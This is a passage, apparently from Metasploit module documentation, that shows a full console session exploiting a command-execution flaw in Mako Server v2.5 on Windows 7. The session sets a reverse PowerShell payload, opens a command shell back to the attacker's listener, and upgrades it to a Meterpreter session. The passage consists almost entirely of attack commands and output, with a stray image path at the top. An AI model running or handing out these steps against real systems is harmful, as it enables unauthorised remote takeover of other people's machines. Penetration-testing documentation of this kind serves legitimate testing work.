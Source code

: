 ```
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

### Targeting Windows 7 SP1 x64 running Mako Server v2.5

  A typical scenario would be to obtain a Windows command shell and then upgrade to a Meterpreter session:

  ```
  msf > use exploit/multi/http/makoserver_cmd_exec 
  msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.2
  RHOST => 10.10.10.2
  msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
  PAYLOAD => cmd/windows/reverse_powershell
  msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.4
  LHOST => 10.10.10.4
  msf exploit(makoserver_cmd_exec) > check
  [*] 10.10.10.2:80 The target appears to be vulnerable.
  msf exploit(makoserver_cmd_exec) > exploit

  [*] Started reverse TCP handler on 10.10.10.4:4444 
  [*] Sending payload to target...
  [*] Command shell session 1 opened (10.10.10.4:4444 -> 10.10.10.2:49189) at 2017-10-25 20:57:56 -0400

  Microsoft Windows
  Copyright (c) Microsoft Corporation.  All rights reserved.

  C:\Users\Smith\Downloads\MakoServer>^Z
  Background session 1? [y/N]  y
  msf exploit(makoserver_cmd_exec) > use multi/manage/shell_to_meterpreter
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type               Information  Connection
    --  ----  ----               -----------  ----------
    1         shell cmd/windows               10.10.10.4:4444 -> 10.10.10.2:49189 (10.10.10.2)
  msf post(shell_to_meterpreter) > set SESSION 1
  SESSION => 1
  msf post(shell_to_meterpreter) > set LPORT 8080
  LPORT => 8080
  msf post(shell_to_meterpreter) > exploit

  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 10.10.10.4:8080
  [-] Powershell is not installed on the target.
  [*] Command stager progress: 1.66% (1699/102108 bytes)
  ...
  [*] Command stager progress: 100.00% (102108/102108 bytes)
  [*] Post module execution completed
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type                     Information                            Connection
    --  ----  ----                     -----------                            ----------
  ```